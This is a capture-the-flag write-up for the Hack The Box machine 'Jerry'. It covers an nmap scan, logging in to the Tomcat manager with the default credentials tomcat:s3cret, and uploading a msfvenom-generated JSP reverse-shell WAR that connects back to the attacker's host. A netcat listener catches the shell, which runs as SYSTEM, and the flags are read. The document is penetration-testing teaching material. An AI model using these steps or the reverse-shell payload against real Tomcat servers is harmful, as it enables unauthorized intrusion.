 +++ 
title = "Jerry HTB Write up"
description = "Write up for the HTB machine 'Jerry'"
author = "greatmoves"
tags=["penetration testing", "nmap", "RCE", "Tomcat", "Apache", "web application security", "credentials", "default credentials", "reverse shell", "netcat", "privilege escalation", "Windows", "hackthebox", "easy"]
date = 2023-05-04
+++

# 1. Initial recon

## 1.1. nmap
`nmap -sC -sV 10.10.10.95 -Pn`

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
```

from the nmap scan we can navigate to `10.10.10.95:8080` clicking on the manager page we are prompted to enter some credentials
trying the usual
```
admin:admin
admin:password
...
```
we are met with a 403 page that contains some default credentials
```
tomcat:s3cret
```
surely enough those work when we are prompted to log in again

# 2. RCE

looking through the manager portal at `/manager/html` we can see that there is an option to upload WAR files. we can find a `msfvenom` reverse shell for the war file on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#metasploit)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war
```

after uploading the file for the reverse shell, and running a netcat listener, we can navigate to `/revshell` on the web server to catch it

# 3. user and root!

a simple `whoami` in our rev shell reveals that we are already `nt authority\system` so let's just search for our flags

we can find them at `C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt` and simply running `type "2 for the price of 1.txt` in the flag directory will reveal both our user and root flags.
